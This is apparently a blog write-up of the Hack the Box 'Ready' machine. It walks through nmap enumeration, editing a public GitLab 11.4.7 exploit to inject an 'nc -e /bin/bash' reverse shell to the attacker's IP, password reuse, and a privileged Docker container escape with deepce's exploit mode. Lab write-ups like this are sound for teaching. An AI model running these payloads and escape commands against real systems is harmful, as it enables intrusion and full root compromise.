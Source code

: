 ```yaml
---
title: Ready
date: 2021-05-06
excerpt: "'Ready' is a medium rated box on Hack the Box. We'll be using a public exploit for a vulnerable Gitlab version for a shell, enumeration and password reuse for privesc and escape a docker container for root"
classes: wide
categories: HackTheBox
tags:
  - htb
  - gitlab
  - searchsploit
  - linpeas
  - deepce
  - docker
  - escape
---
```



![img](/assets/images/htb/ready/0.png)


### Port Scanning and General Enumeration (Nmap)
* Reading/Resources
  * [Nmap manual](https://nmap.org/book/man.html)

`nmap -sV -sC -oN nmap/initial -T4 10.10.10.220`


![img](/assets/images/htb/ready/1.png)

22 and ..5080? 


![img](/assets/images/htb/ready/2.png)

**Gitlab!**

---

### Access (searchsploit, gitlab)
* Reading/Resources
  * [searchsploit](https://www.exploit-db.com/searchsploit)
  * [gitlab](https://about.gitlab.com/)

Let's see what version of **Gitlab** we're working with

1. `top right, drop down menu`
2. `help`


![img](/assets/images/htb/ready/3.png)

Gitlab version **11.4.7**

Checking **searchsploit** for public exploits for **Gitlab 11.4.7**


![img](/assets/images/htb/ready/4.png)

I used the first one but it requires a bit of editing. Here's what I added:

```python
open(\\'|""" + f'nc -e /bin/bash YOURIP YOURPORT' + """ \\').read\\"]
```

The original wouldn't work, this one should. (replace *YOURIP* and *YOURPORT* with your listening ip and port, respectively)

Start a listener

`nc -lvnp 4444`

And run the script!

`python3 exploit.py -u YOURUSERNAME -p YOURPASSWORD -g http://10.10.10.220 -l YOURIP -p YOUR PORT`


![img](/assets/images/htb/ready/5.png)


![img](/assets/images/htb/ready/6.png)

> **Quick tip!**
> > You may want to stabilize your shell at this point. A quick and dirty way to do so is
> > ```
> > python3 -c 'import pty; pty.spawn("/bin/bash")'
> > export TERM=xterm
> >```

---

### Privesc Part 1 (password-reuse, linpeas)
* Reading/Resources
	* [linpeas]()

**Linpeas** kicks back a *lot* of juicy informtion, but this box has some curveballs and 90% of it is irrelevant for the completion of this box. This is definitely a case of **K.I.S.S.**

> **K.I.S.S.**
> > *keep it simple stupid*

Main two things we're after here:


![img](/assets/images/htb/ready/7.png)


![img](/assets/images/htb/ready/8.png)

*keep that in mind for later*

First thing you should *always* do when you find a plaintext password? Use it! Use it everywhere!

Turns out..


![img](/assets/images/htb/ready/9.png)

Let's capture the root fla---


![img](/assets/images/htb/ready/10.png)

Well, let's try and escape the docker then!

---

### Privesc Part 2: ESCAPE-trick boogaloo (deepce, docker escape)
* Reading/Resources
	* [deepce](https://github.com/stealthcopter/deepce)
	* [Escaping Docker Containers](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)

First things first when trying to do anything: **Enumeration**. We'll be using **deepce**. It's very similar to **Linpeas**. It's *amazing*.

The interesting finding:


![img](/assets/images/htb/ready/11.png)

Running a container as **privileged** gives us the ability to execute commands as root.

The other cool feature of **deepce** is it has an **exploit** mode

`./deepce.sh --no-enumeration --exploit PRIVILEGED --username deepce --password deepce`

*you can read about the available exploits by following the link above in **Reading/Resources***

All that's left to do is **ssh** in as the new root user!


![img](/assets/images/htb/ready/12.png)


![img](/assets/images/htb/ready/13.png)



